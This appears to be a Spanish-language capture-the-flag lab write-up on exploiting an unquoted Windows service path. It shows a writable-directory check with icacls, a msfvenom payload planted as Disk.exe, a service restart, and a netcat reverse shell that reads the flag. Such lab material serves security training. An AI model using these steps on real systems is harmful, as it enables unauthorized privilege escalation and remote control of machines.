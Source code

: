 ## Unquoted Service Paths
- Cuando un servicio en la ruta del ejecuable NO tiene las comas para rutas con espacios:
- Correcto: `C:\Program Files\RealVNC\VNC Server\vncserver.exe`
- Incorrecto y el que explotaremos: `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

- En este caso para el ejemplo tenemos, donde `BUILTIN\Users` tiene permisos para crear y modificar archivos en ese directorio
```
C:\MyPrograms>icacls .
. NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  BUILTIN\Users:(I)(OI)(CI)(RX)
  BUILTIN\Users:(I)(CI)(AD)
  BUILTIN\Users:(I)(CI)(WD)
  CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
- Copiamos nuevamente el payload de msfvenom co el nombre de `disk` a esta ruta:
```
C:\MyPrograms>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\MyPrograms

12/06/2022  03:26 AM    <DIR>          .
12/06/2022  03:26 AM    <DIR>          ..
05/03/2022  03:16 PM    <DIR>          Disk Sorter Enterprise
12/06/2022  03:02 AM            48,640 Disk.exe
05/03/2022  07:44 PM    <DIR>          THMService
               1 File(s)         48,640 bytes
               4 Dir(s)  15,016,955,904 bytes free

C:\MyPrograms>sc stop "disk sorter enterprise"

C:\MyPrograms>sc start "disk sorter enterprise"


```

- En el listenner del atacante todo se da:
```
root@ip-10-10-146-33:~# nc -lnvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 10.10.225.50 49896 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd %userprofile%/desktop
cd %userprofile%/desktop

C:\Users\svcusr2\Desktop>type flag.txt
type flag.txt
THM{QUOTES_EVERYWHERE}
C:\Users\svcusr2\Desktop>
```

